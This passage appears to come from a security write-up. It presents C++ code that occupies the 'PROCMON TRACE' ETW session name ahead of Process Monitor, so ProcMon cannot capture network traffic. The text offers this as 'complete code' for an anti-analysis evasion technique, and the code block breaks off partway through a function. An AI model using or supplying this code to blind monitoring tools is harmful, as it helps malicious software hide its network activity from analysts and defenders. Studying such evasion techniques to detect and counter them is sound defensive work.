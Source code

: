 Here is the complete code that checks if the "PROCMON TRACE" session exists at execution time. If the session does not exist, it will create a new one to interfere with the normal ProcMon session. As a result, ProcMon will be unable to capture any network traffic.

```
#include <windows.h>
#include <evntrace.h>
#include <evntcons.h>
#include <iostream>
#include <string>

TRACEHANDLE sessionHandle = 0;
HANDLE currentThreadId = 0;
std::wstring sessionName = L"PROCMON TRACE";

void StartETWSession() {
    EVENT_TRACE_PROPERTIES* properties = (EVENT_TRACE_PROPERTIES*)malloc(sizeof(EVENT_TRACE_PROPERTIES) + sizeof(TCHAR) * 1024);
    ZeroMemory(properties, sizeof(EVENT_TRACE_PROPERTIES) + sizeof(TCHAR) * 1024);
    properties->Wnode.BufferSize = sizeof(EVENT_TRACE_PROPERTIES) + sizeof(TCHAR) * 1024;
    properties->Wnode.ClientContext = 1; // QPC clock resolution
    properties->Wnode.Flags = WNODE_FLAG_TRACED_GUID;
    properties->LogFileMode = EVENT_TRACE_REAL_TIME_MODE;
    properties->MaximumFileSize = 0; // No file size limit
    properties->LoggerNameOffset = sizeof(EVENT_TRACE_PROPERTIES);
    properties->LogFileNameOffset = 0;

    ULONG status = StartTrace(&sessionHandle, sessionName.c_str(), properties);
    if (status == ERROR_SUCCESS) {
        std::wcout << L"ETW session 'PROCMON TRACE' created successfully." << std::endl;
    }
    else {
        std::wcerr << L"Failed to create session: " << status << std::endl;
    }

    free(properties);
}

void StopETWSession() {
    EVENT_TRACE_PROPERTIES* properties = (EVENT_TRACE_PROPERTIES*)malloc(sizeof(EVENT_TRACE_PROPERTIES) + sizeof(TCHAR) * 1024);
    ZeroMemory(properties, sizeof(EVENT_TRACE_PROPERTIES) + sizeof(TCHAR) * 1024);
    properties->Wnode.BufferSize = sizeof(EVENT_TRACE_PROPERTIES) + sizeof(TCHAR) * 1024;

    ULONG status = ControlTrace(NULL, sessionName.c_str(), properties, EVENT_TRACE_CONTROL_STOP);
    if (status == ERROR_SUCCESS) {
        std::wcout << L"[+] ETW session 'PROCMON TRACE' stopped." << std::endl;
    }
    else {
        std::wcerr << L"[!] Failed to stop session: " << status << std::endl;
    }

    free(properties);
}

void PrintSessionInfo() {
    EVENT_TRACE_PROPERTIES* properties = (EVENT_TRACE_PROPERTIES*)malloc(sizeof(EVENT_TRACE_PROPERTIES) + sizeof(TCHAR) * 1024);
    ZeroMemory(properties, sizeof(EVENT_TRACE_PROPERTIES) + sizeof(TCHAR) * 1024);
    properties->Wnode.BufferSize = sizeof(EVENT_TRACE_PROPERTIES) + sizeof(TCHAR) * 1024;
    properties->LoggerNameOffset = sizeof(EVENT_TRACE_PROPERTIES);

    ULONG status = ControlTrace(sessionHandle, nullptr, properties, EVENT_TRACE_CONTROL_QUERY);
    if (status == ERROR_SUCCESS) {
```